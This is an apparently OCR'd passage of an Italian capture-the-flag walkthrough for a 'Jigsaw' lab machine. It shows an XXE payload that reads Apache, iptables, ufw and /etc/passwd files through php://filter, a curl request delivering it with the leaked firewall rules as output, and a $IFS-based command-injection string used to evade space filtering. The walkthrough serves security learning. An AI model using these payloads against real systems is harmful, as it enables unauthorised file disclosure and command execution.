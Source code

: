 
/etc/apache2/sites-available/000-default.conf
/etc/iptables/rules.v4
/etc/iptables/rules.v6
/etc/ufw/ufw.conf

In cookies.txt :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY file1 SYSTEM "php://filter/resource=/etc/apache2/sites-available/000-default.conf">
<!ENTITY file2 SYSTEM "php://filter/resource=/etc/iptables/rules.v4">
<!ENTITY file3 SYSTEM "php://filter/resource=/etc/iptables/rules.v6">
<!ENTITY file4 SYSTEM "php://filter/resource=/etc/ufw/ufw.conf">
<!ENTITY file5 SYSTEM "php://filter/resource=/etc/passwd">
]>

<root>
	<email>&file2; &file3; &file4; &file5;</email>
   <password>aaa</password>
</root>
```

E lanciamo :

```
root@kali:~/Jigsaw# curl -q -d @cookies.txt -X POST http://192.168.1.140/w4n770p14y494m3/game2.php
# Generated by iptables-save v1.4.21 on Fri May 10 04:58:03 2019
*filter
:INPUT ACCEPT [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [134:27320]
-A INPUT -p tcp -j DROP
COMMIT
# Completed on Fri May 10 04:58:03 2019
 # Generated by ip6tables-save v1.4.21 on Fri May 10 04:58:03 2019
*filter
:INPUT ACCEPT [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
COMMIT
# Completed on Fri May 10 04:58:03 2019
 # /etc/ufw/ufw.conf
#

...
```

Proviamo a creare un file passando a expect "touch$IFS'test.php';ls$IFS-l" e troviamo il nuovo file.
Adesso proviamo a scriverci dentro.
Da test effettuati risulta che non possiamo utilizzare i caratteri di redirect ne il pipe, inoltre utilizzando $IFS se dopo si trovano dei caratteri alfanumerici per funzionare dobbiamo racchiuderli tra 2 '.
